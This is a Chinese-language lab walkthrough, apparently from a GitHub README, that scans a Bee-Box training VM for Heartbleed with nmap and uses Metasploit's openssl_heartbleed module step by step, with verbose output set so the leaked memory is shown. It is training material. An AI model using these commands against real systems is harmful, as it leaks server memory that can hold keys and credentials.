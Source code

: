 使用nmap再此扫描`nmap -sV -p 8443 --script ssl-heartbleed.nse 192.168.2.174`，发现heartbleed漏洞

![](./pictures/Bee-Box_nmap.png)

2. 打开msf，查找heartbleed模块`msf5 > search heartbleed`

![](./pictures/msf_searchheartbleed.png)

3. 使用第1个模块`msf5 > use auxiliary/scanner/ssl/openssl_heartbleed`

4. 查看需要设置的选项 `msf5 auxiliary(scanner/ssl/openssl_heartbleed) > show options`

5. 设置RHOSTS、RPORT

   ```bash
   msf5 auxiliary(scanner/ssl/openssl_heartbleed) > set RHOSTS 192.168.2.174
   
   ```

6. 设置verbose，这个设置要设置成true才能看到泄露的信息

   `msf5 auxiliary(scanner/ssl/openssl_heartbleed) > set verbose true`

7. 开始攻击
